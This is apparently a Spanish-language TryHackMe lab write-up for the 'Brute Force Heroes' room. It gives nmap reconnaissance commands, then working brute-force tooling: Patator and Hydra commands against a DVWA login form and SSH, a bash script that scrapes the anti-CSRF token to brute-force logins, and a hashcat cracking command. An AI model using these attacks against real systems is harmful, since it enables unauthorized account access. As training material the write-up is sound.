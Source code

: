 ```yaml
---
title: "Brute Force Heroes"
description: "Brute Force Heroes"
pubDate: 2025-05-20
---
```


https://tryhackme.com/r/room/bruteforceheroes

# Fase de reconocimiento

## Buscamos puertos abiertos

````
nmap -sS -p- -T5 --min-rate=5000 -vvv -Pn -n 10.10.232.59
````

![](https://uuqke3c479llohf3.public.blob.vercel-storage.com/Pasted%20image%2020240502165940.png)

## Reconocimiento de servicios

````
nmap -sVC -p22,80 -Pn 10.10.232.59
````

![](https://uuqke3c479llohf3.public.blob.vercel-storage.com/Pasted%20image%2020240502170049.png)

# Fase de ataque

## Patator

````
patator http_fuzz method=POST --threads=64 timeout=10 url="http://10.10.232.59/login.php" 0=passwords.txt body="username=admin&password=FILE0&Login=Login&user_token=d4cd292ce852945c6a82f2c6ab10e8c6 header="Cookie: PHPSESSID="j5283pc75309v4pcrom979i5ti"; security="impossible" -x ignore:fgrep=Location: login.php
````

No me funcionó

## Script anti CSRF

````bash
#!/bin/bash
## Variables
URL="http://192.168.1.33/DVWA"
USER_LIST="user.txt"
PASS_LIST="password.txt"

## Value to look for in response (Whitelisting)
SUCCESS="Location: index.php"

## Anti CSRF token
CSRF="$( curl -s -c /tmp/dvwa.cookie "${URL}/login.php" | awk -F 'value=' '/user_token/ {print $2}' | cut -d "'" -f2 )"
[[ "$?" -ne 0 ]] && echo -e '\n[!] Issue connecting! #1' && exit 1

## Counter
i=0

## Password loop
while read -r _PASS; do

  ## Username loop
  while read -r _USER; do

    ## Increase counter
    ((i=i+1))

    ## Feedback for user
    echo "[i] Try ${i}: ${_USER} // ${_PASS}"

    ## Connect to server
    #CSRF=$( curl -s -c /tmp/dvwa.cookie "${URL}/login.php" | awk -F 'value=' '/user_token/ {print $2}' | awk -F "'" '{print $2}' )
    REQUEST="$( curl -s -i -b /tmp/dvwa.cookie --data "username=${_USER}&password=${_PASS}&user_token=${CSRF}&Login=Login" "${URL}/login.php" )"
    [[ $? -ne 0 ]] && echo -e '\n[!] Issue connecting! #2'

    ## Check response
    echo "${REQUEST}" | grep -q "${SUCCESS}"
    if [[ "$?" -eq 0 ]]; then
      ## Success!
      echo -e "\n\n[i] Found!"
      echo "[i] Username: ${_USER}"
      echo "[i] Password: ${_PASS}"
      break 2
    fi

  done < ${USER_LIST}
done < ${PASS_LIST}

## Clean up
rm -f /tmp/dvwa.cookie
````

## Hydra

Brute force form

````bash
hydra -L users.txt -P password.txt 'http-get-form://10.10.232.59/vulnerabilities/brute/:username=^USER^&password=^PASS^&Login=Login:H=Cookie\:PHPSESSID=j5283pc75309v4pcrom979i5ti; security=low:F=Username and/or password incorrect'
````

![](https://uuqke3c479llohf3.public.blob.vercel-storage.com/Pasted%20image%2020240502183708.png)

Brute Force ssh

````
 hydra -f -L userlist.txt -P encoded_passwords.txt 10.10.232.59 -t 4 ssh -V 
````

## Hashcat

````
hashcat -a 0 -m 1800 hash.txt <wordlist>
````

